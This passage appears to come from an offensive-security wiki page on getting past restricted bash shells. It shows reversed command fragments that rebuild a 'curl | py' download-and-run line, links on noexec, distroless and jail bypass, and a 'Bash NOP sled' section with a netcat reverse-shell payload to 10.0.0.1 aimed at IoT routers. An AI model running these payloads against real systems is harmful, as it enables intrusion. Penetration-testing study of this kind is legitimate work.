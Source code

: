 ```
'>py\\'
'>\|\\'
'>tw\\'
'>e.\\'
'>ng\\'
'>ra\\'
'>o\\'
'>\ \\'
'>rl\\'
'>cu\\'

# got shell
'sh x'
'sh g'
```
```
## Read-Only/Noexec/Distroless Bypass

If you are inside a filesystem with the **read-only and noexec protections** or even in a distroless container, there are still ways to **execute arbitrary binaries, even a shell!:**

[[bypass-fs-protections-read-only-no-exec-distroless/]]

## Chroot & other Jails Bypass

[[../privilege-escalation/escaping-from-limited-bash.md]]

## Space-Based Bash NOP Sled ("Bashsledding")

When a vulnerability lets you partially control an argument that ultimately reaches `system()` or another shell, you may not know the exact offset at which execution starts reading your payload.  Traditional NOP sleds (e.g. `\x90`) do **not** work in shell syntax, but Bash will harmlessly ignore leading whitespace before executing a command.

Therefore you can create a *NOP sled for Bash* by prefixing your real command with a long sequence of spaces or tab characters:

```bash
# Payload sprayed into an environment variable / NVRAM entry
"                nc -e /bin/sh 10.0.0.1 4444"
# 16× spaces ───┘ ↑ real command
```
```
If a ROP chain (or any memory-corruption primitive) lands the instruction pointer anywhere within the space block, the Bash parser simply skips the whitespace until it reaches `nc`, executing your command reliably.

Practical use cases:

1. **Memory-mapped configuration blobs** (e.g. NVRAM) that are accessible across processes.
2. Situations where the attacker can not write NULL bytes to align the payload.
3. Embedded devices where only BusyBox `ash`/`sh` is available – they also ignore leading spaces.

> 🛠️  Combine this trick with ROP gadgets that call `system()` to dramatically increase exploit reliability on memory-constrained IoT routers.

## References & More

- [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#exploits|https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#exploits]]
- [[https://github.com/Bo0oM/WAF-bypass-Cheat-Sheet|https://github.com/Bo0oM/WAF-bypass-Cheat-Sheet]]
- [[https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0|https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0]]
```
